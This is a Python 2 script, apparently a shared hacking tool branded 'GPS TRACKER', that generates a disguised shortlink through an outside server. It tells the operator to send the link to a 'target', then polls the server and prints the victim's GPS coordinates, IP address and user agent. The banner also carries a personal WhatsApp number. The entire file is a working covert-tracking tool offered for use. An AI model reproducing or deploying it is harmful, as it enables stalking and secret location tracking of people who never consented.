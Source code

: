 #!/usr/bin/python2.7
# -*- coding: utf-8 -*-
#Author MR.404
#Maklum kalo berantakan ster
G = '\033[0;32m'
C = '\033[0;36m'
W = '\033[0;37m'
R = '\033[0;31m'
Y = '\033[0;33m'
import requests,json,time,os,sys
reload(sys)
sys.setdefaultencoding('utf8')
def logo():
	os.system('clear')
	print '''%s
  __________________  _________
 /  _____/\______   \/   _____/  %sCoded by RAIHAN%s
/   \  ___ |     ___/\_____  \   %sThx To MR.404%s
\    \_\  \|    |    /        \  %sWA   :082331072836%s
 \______  /|____|   /_______  /  TRACKER
        \/                  \/
	'''%(C,W,C,W,C,W,C)
def gps(link,id):
	print '\n%s[%s!%s] Share the link to the target : %s'%(W,R,W,link)
	print '%s[%s!%s] Waiting targets, press ctrl + c to exit ...\n'%(W,R,W)
	res_loc=[]
	res_ip=[]
	res_ua=[]
	while True:
		try:
			track=requests.get('https://gpstracker.seccodeid.com/server//server.php?id=%s&type=get'%id).json()['data']
			for arz in track:
				loc=json.loads(arz)['data']['lat']+','+json.loads(arz)['data']['lon']
				ip=json.loads(arz)['data']['ip']
				ua=json.loads(arz)['data']['ua']
				if loc in res_loc:continue
				else:res_loc.append(loc);print '%s[%s✓%s] Location : %s\n'%(W,G,W,loc)
				if ip in res_ip:continue
				else:res_ip.append(ip);print '%s[%s✓%s] IP : %s\n'%(W,G,W,ip)
				if ua in res_ua:continue
				else:res_ua.append(ua);print '%s[%s✓%s] User Agent : %s\n'%(W,G,W,ua)
		except ValueError:pass
		time.sleep(5)
def old():
	logo()
	if open('link').read()=='':print '%s[%s!%s] No old links'%(W,R,W);time.sleep(1);main()
	for link in open('link').read().splitlines():
		print '%s[%s✓%s] %s'%(W,G,W,link)
	link=raw_input('\n%s[%s?%s] Paste the link one : '%(W,Y,W))
	if link=='':print '%s[%s!%s] Invalid input'%(W,R,W);time.sleep(1);old()
	gps(link.split('|')[0],link.split('|')[1])
def new():
	logo()
	title=raw_input('%s[%s?%s] Input title : '%(W,Y,W))
	if title=='':print '%s[%s!%s] Invalid input'%(W,R,W);time.sleep(1);new()
	name=raw_input('%s[%s?%s] Input shortlink name : '%(W,Y,W))
	if name=='':print '%s[%s!%s] Invalid input'%(W,R,W);time.sleep(1);new()
	redirek=raw_input('%s[%s?%s] Input redirect : '%(W,Y,W))
	if redirek=='':print '%s[%s!%s] Invalid input'%(W,R,W);time.sleep(1);new()
	api=requests.post('https://gpstracker.seccodeid.com/server//server.php',data={'type':'generate','title':title,'shortlink_name':name,'redirect':redirek}).json()
	if 'already exists' in str(api):raw_input('%s[%s!%s] Name already exists\n    enter'%(W,R,W));main()
	elif api['data']['link']==None:raw_input('%s[%s!%s] Failed create link\n    enter'%(W,R,W));main()
	elif 'reserved' in str(api['data']['link']):raw_input('%s[%s!%s] Failed create link\n    enter'%(W,R,W));main()
	open('link','a+').write(api['data']['link']+'|'+api['data']['id']+'\n')
	gps(api['data']['link'],api['data']['id'])
def main():
	if os.path.exists('link'):pass
	else:open('link','a+').close()
	logo()
	print '   %s[%s1%s] Old link\n   %s[%s2%s] Create a new link\n   %s[%s0%s] Exit\n'%(W,G,W,W,G,W,W,R,W)
	dark=raw_input('%s[%s?%s] Choice : '%(W,Y,W))
	if dark=='':print '%s[%s!%s] Invalid input'%(W,R,W);time.sleep(1);main()
	if dark=='1':old()
	elif dark=='2':new()
	elif dark=='0':exit()
	else:print '%s[%s!%s] Invalid input'%(W,R,W);time.sleep(1);main()
if __name__=='__main__':
	try:
		main()
	except requests.exceptions.ConnectionError:
		exit('%s[%s!%s] Check internet'%(W,R,W))
	except KeyboardInterrupt:
		exit('%s[%s!%s] Exit'%(W,R,W))

